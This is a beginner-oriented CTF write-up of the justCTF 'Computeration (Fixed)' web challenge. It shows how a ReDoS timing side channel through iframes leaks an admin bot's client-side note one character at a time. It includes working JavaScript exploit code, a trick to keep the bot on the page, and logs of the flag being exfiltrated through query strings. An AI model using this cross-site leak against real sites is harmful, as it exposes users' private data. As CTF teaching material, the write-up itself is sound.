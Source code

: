 # Computeration (Fixed)
**Catagory:** Web
**Difficulty:** Hard
>  Can you get admin's note? I heard the website runs only on client-side so should be secure...   https://computeration-fixed.web.jctf.pro/  
If you find anything interesting give me call here: https://computeration-fixed.web.jctf.pro/report

>The flag is in the format: justCTF{[a-z_]+}.

**note**: I didn't solve this challenge during the CTF, but as a web-noob, I wanted to create a writeup that was as bit more beginner friendly for my fellow web-noobs.

## Recon: The Webapp
Let's start by taking a look at the source of the webapp. There are a couple things to note right out of the gate:  
1. The `x-frame-options` header is not set, so we can `iframe` the webapp to our hearts content. _(foreshadowing?)_
2. Notes are indeed client-side, and reside in the session's localStorage:

```js
let notes = JSON.parse(localStorage.getItem('notes')) || [];
```

3. Neither note creation, nor rendering is properly sanitized, however this is not useful as there is no way to turn this into anything other than a self-XSS.

4. Searches are based on the current URL, and use regex under the hood.
```js
function searchNote(){
    location.hash = searchNoteInp.value;
}

// triggers when the hash _changes_. Note that the initial page load is not considered a "hash change"
onhashchange = () => {
    // example.com#search_regex -> search_regex
    const reg = new RegExp(decodeURIComponent(location.hash.slice(1)));
    const found = [];
    // Compare the contents of all notes to the provided regex,
    // If they match, add their title to the "found" list
    notes.forEach(e=>{
        if(e.content.search(reg) !== -1){
            found.push(e.title);
        }
    });
    notesFound.innerHTML = found;
}
```

Being able to control the search by url will become important later, because it allows us to interact with the webapp, even if we can only control the url.

## Recon: The Report Function
Let's now focus on the second part of the challenge:
> If you find anything interesting give me call here: https://computeration-fixed.web.jctf.pro/report

If we visit the report link, we are greeted by a form where we can input a url for the admin to inspect. Let's first test if there are any restriction on the report url.  
First, start a `nc` listener on a publicly reachable IP and port. Then submit `http://[IP]:[Port]` to the admins form. Within a few seconds, the `nc` terminal shows that the admin has connected to our server.  
Nice! this means that we can create our own malicious webpage and submit it for review later.

## The Vulnerability
The main vulnerability in the webapp is that we can make another user perform a search on their private data, using a regex that we provide.  
  
This is an issue, because we can construct regexes that can take a long time to complete, if and only if, they match a certain prefix. We can abuse this to leak the flag char by char, based on how long it takes to perform a search.  
  
Here is an example of such a regex:
```js
// Prefix: "justCTF"
// Guess : "a"
let regex = "^(?=justCTF{a).*.*.*.*.*.*.*.*.*.*ABCDE";
```
If the flag does not start with "justCTF{a", the regex engine will quickly return with no matches. However, if the flag does start with "justCTF{a", the regex engine suddenly needs to evaluate an exponential number of ways to match the flag with the ".\*"-chain.  

The final secret-sauce is the last part of the regex. Without it, the engine can instantly return a match, since the flag matches `^justCTF{a.*`.


## Exploitation
> Full exploit code is [available on github](https://github.com/rickdejager/CTF/JUSTCAT2020/web/computernation/code), this section will cover only the juicy parts.  

### The Game Plan
1. Load an `iframe` that contains the webapp.
1. Perform a regex search in the `iframe` to guess the next character of the flag.
1. Queue another task and measure how long it takes to complete.
1. If the task takes longer than expected, the regex engine must have slowed down our thread. This means our guess was correct.

Initially, I used an `async` function with a timeout to perform measurements. However, this approach only works in the challenge server is single threaded. Otherwise the measurement will simply be performed on another thread due to "Site Isolation" (see [xsleaks](https://xsleaks.dev/docs/attacks/timing-attacks/execution-timing/)).  
  
In a nutshell, **Chrome isolates javascript processes by their respective domains**, so we need a way to create a task under the challenge servers domain. To do this, we will just load a new `iframe` with `src=https://computeration-fixed.web.jctf.pro/#` for each guess.

### Guessing The Next Character

The following two functions are used to guess a character. The `delta` and  `threshold` values, as well as the "difficulty formula" are chosen such that a successful guess takes ~200ms, while a failure takes only a few ms at most.  

```js

function testChar(c) {
  // Measure the initial time
  var start = performance.now();

  // Perform a slow regex search in the iframe
  // The number of ".*"'s goes up as we learn more of the flag, to keep the
  // regex sufficiently difficult.
  var dif = 6 + Math.floor(Math.log(known.length) / 2);
  var regex = "^(?="+known+c+")"+ ".*".repeat(dif) +"ABCDE$";
  ifr.src = url+encodeURIComponent(regex);
  // Sleep for a few ms, to ensure the regex engine is churning when we load the second iframe
  await sleep(delta);

  // Setup a measurement by creating a new iframe on the challenge domain.
  var ifr2 = document.createElement('iframe');
  ifr2.src = url;
  ifr2.onload = measure(start, c);
  document.body.appendChild(ifr2);
}

async function measure(start, c) {
  var time = performance.now() - start - delta;
  console.log("[%s: %d ms] %s", c, time, known);


  // This took longer than usual, indicating regex-bullshittery
  if (time > threshold) {
    // Update the "known" variable with the new character
    known = known + c;
    // Add the current flag to the url so we can see it in our server logs
    window.location = window.location.origin + window.location.pathname + "?" + known;
  }
}

```


This code is easily turned into a bruteforcer by looping over the entire alphabet and testing each character. Note that you must also exfiltrate the flag somehow. I chose to save it in the query string, which shows up in most webserver logs.


### Hosting the exploit
To host this exploit, create a simple webpage that loads the exploit script. This webpage must never finish loading, since the bot will leave our site when it does. This can be fixed by adding an image that loads slowly.
```html
<img src="https://deelay.me/10000/http://example.com"/>
```

Now we are ready to actually host our exploit, which we can do with pythons webserver for example. Next, we send the admin a link to our hosted page. Within a few seconds, the admin connects and we start to receive parts of the flag.  

The admins connection will timeout at some point, so it is important that the exploit code reads the partial flag from the query string such that it can resume. Using the above code you can leak about two or three characters per attempt.
```
ctf@ctf-vps:~/justCAT$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
[...]
206.189.107.148 - - [05/Feb/2021 16:56:24] "GET /hack.html?justCTF{no_refere HTTP/1.1" 200 -
206.189.107.148 - - [05/Feb/2021 16:56:32] "GET /hack.html?justCTF{no_referer HTTP/1.1" 200 -
206.189.107.148 - - [05/Feb/2021 16:56:35] "GET /hack.html?justCTF{no_referer_ HTTP/1.1" 200 -
[...]
206.189.107.148 - - [05/Feb/2021 16:58:03] "GET /hack.html?justCTF{no_referer_typo_ehhhhhh HTTP/1.1" 200 -
206.189.107.148 - - [05/Feb/2021 16:58:07] "GET /hack.html?justCTF{no_referer_typo_ehhhhhh} HTTP/1.1" 200 -
```

```
flag: justCTF{no_referer_typo_ehhhhhh}
```

## Demo
The victims chrome session can be seen in the top half of the screen. The bottom half of the screen shows the requests received by our PHP server. The flag is slowly extracted over the course of a few minutes.

![](res/demo.gif)


## Acknowledgement and Links
I wrote this writeup after the CTF was over, mainly to gain a better understanding of web challenges. I started by reading the [writeup written by the challenge author](https://ctftime.org/writeup/25869), which also contains a lot of links to other great resources.  


